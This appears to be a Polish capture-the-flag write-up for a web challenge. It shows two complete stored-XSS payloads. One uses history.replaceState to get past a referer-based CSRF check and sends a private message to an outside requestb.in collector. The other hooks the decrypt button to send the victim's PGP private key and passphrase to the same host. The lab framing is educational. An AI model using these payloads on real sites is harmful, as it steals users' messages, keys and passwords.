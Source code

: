 # Zadanie 2 - web duże

## Useful tools

https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/

https://github.com/internetwache/GitTools

## Link do zadania

https://hard.web.uw2017.p4.team

## Write-up

### Ogólna idea

Wiadomość jest szyfrowana po stronie użytkownika, zatem możliwe jest wysłanie
dowolnej wiadomości, a ponieważ zaszyfrowana wiadomość nie jest escapowana i
jest renderowana po stronie klienta to możliwy jest atak XSS

Wystarczy wysłać do admina dwie odpowiednio spreparowane wiadomości
i liczyć na to że je otworzy i spróbuje odszyfrować
(w sumie można to zrobić też w jednej wiadomości...)

Oczywiście chodzi tu o wyciągnięcie klucza prywatnego oraz wiadmości o id 1


### Wyciąganie wiadomości

Należy wykonać po stronie klienta zapytanie które pobierze wiadomość.
Jesteśmy cały czas w tej samej domenie więc SOP na to pozwala.

Następnie możemy wysłać tą wiadomość na własny serwer (SOP pozwala na wysłanie
zapytania, nie pozwoli tylko na odczytanie odpowiedzi serwera u atakowanej ofiary,
ale to bez znaczenia)

Wszystko byłoby łatwe, gdyby nie to, że serwer ma dodatkowe zabezpieczenie
przed atakiem CSRF i nie pozwala wejść na stronę wiadomości ze stron innych
niż `/list_messages`.

Na szczeście jest na to sposób
```
window.history.replaceState({}, "Hello", '/list_messages')
```

Po wykonaniu tej komendy serwer będzie myślał, że zapytanie pochodzi ze strony
`/list_messages` i oto mamy dostęp do wiadomości

Cała wiadomość:

```
<script>
window.history.replaceState({}, "Hello", '/list_messages')

$.ajax({
    url: "/read_message/1",
}).then(function(data) {
    $.post({
        url: "https://requestb.in/158azuq1",
        data: {
            message: data
        }
    })
});
</script>
```

### Wyciąganie klucza prywatnego

Klucz prywatny nie jest trzymany nigdzie na serwerze. Dlatego to użytkownik
musi sam go nam wysłać. Jak go do tego zachęcić? Spreparować tak wiadomość,
aby przy próbie odszyfrowania odczytała wklejony w odpowiednie pole klucz
i wysłała go na nasz serwer

Cała wiadomość:

```
<script>
$(function() {
    var privkey = document.getElementById("privkey");
    var user_pass = document.getElementById("pgp-pass");

    document.getElementById('decrypt-button').onclick = function() {
        $.post({
            url: "https://requestb.in/158azuq1",
            data: {
                privKey: privkey.value.trim(),
                userPass: user_pass.value
            }
        })
    };
});
</script>
```

### Flagi

Flaga z wiadomości: `UW2017{Mess with the best, die like the rest.}`

Flaga z klucza prywatnego: `UW2017{One small XSS for man...}`
